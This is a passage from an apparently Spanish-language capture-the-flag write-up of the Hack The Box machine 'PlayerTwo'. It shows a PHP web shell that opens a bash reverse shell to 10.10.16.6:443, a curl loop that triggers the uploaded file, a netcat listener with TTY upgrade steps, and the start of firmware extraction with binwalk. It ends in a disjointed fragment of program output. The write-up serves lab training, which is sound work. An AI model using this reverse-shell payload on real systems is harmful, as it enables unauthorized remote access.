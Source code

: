 ```null
<?php
  system("bash -c 'bash -i >& /dev/tcp/10.10.16.6/443 0>&1'");
?>
```

```null
tar -cvf cmd.tar cmd.php
```

En bucle, intento cargar constantemente el archivo

```null
while true; do curl -s -X GET http://product.player2.htb/protobs/uploads/cmd.php; done
```

Una vez subido, recibo la shell en una sesión de ```netcat```

```null
nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.6] from (UNKNOWN) [10.10.10.170] 36464
bash: cannot set terminal process group (1100): Inappropriate ioctl for device
bash: no job control in this shell
www-data@playertwo:/var/www/product/protobs/uploads$ script /dev/null -c bash
script /dev/null -c bash
Script started, file is /dev/null
www-data@playertwo:/var/www/product/protobs/uploads$ ^Z
zsh: suspended  nc -nlvp 443
❯ stty raw -echo; fg
[1]  + continued  nc -nlvp 443
                              reset xterm
www-data@playertwo:/var/www/product/protobs/uploads$ export TERM=xterm
www-data@playertwo:/var/www/product/protobs/uploads$ export SHELL=bash
www-data@playertwo:/var/www/product/protobs/uploads$ stty rows 55 columns 209
```

Esta es la manera no intencionada de ganar acceso. La otra forma es modificando el firmware. Para ello, primero lo extraigo del binario

```null
sudo -u rubbx binwalk -D elf Protobs.bin

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
64            0x40            ELF, 64-bit LSB executable, AMD x86-64, version 1 (SYSV)
```

El archivo que he generado es un ELF

```null
file 40
40: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=82adae308a0023a272e626bbe83d97b2b9c630f6, for GNU/Linux 3.2.0, not stripped
```

Otra forma es utilizando ```dd```


 [ Game                ]: test
 [ Config Index    ]: test
  [ Game                ]: test
  [ Contrast            ]: 0
  [ Gamma               ]: 0
  [ Resolution X-Axis   ]: 0
  [ Resolution Y-Axis   ]: 0
  [ Controller          ]: 0
 [ Config Index    ]: test